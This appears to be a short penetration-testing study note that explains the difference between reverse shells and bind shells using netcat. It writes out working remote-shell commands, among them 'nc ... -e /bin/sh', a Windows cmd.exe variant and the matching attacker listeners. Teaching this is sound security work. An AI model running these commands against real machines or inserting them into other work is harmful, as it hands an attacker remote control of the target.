


# Reverse Shells vs Bind Shells

The most common type of shell we will see is called a **Reverse Shell**. It can
be realized using a Linux tool called `netcat` (acutally `nc`). The shell gives
access to the attacked machine.

**Reverse shell** means that the target connects to the host, e.g. through a TCP
connection with `nc`. The attacker is listening, the target is making the
connection.

* Attacker: `nc -lvp 4444` establishes a listening connection (-l) on port 4444
(-p 4444) with verbose output (-v)
* Target: `nc 192.168.1.1 4444 -e /bin/sh` connects to IP 192.168.1.1 on port
4444 and executes /bin/sh, which is a symbolic link to the default shell on Linux
(on Windows: `nc.exe -e cmd.exe 192.168.1.1 4444`).

A **bind shell** is a connection initiated from the attacker to the target. To
get a bind shell, a listening connection has to exist on the target already,
e.g. as a consequence of a previous exploit.

* Attacker: `nc 192.168.1.2 4444` makes a connection with the target
(IP 192.168.1.2) using port 4444, which has to be open
* Target: `nc -lvp 4444 -e /bin/sh` establishes a listening connection on port
4444 and executes `/bin/sh` on the target

Reverse shells will be used 95% of the time! Bind shells are most likely to be
used in an external assessment because a reverse shell to a virtual machine (the
attacker) is difficult to establish (port forwarding requires extra work). 
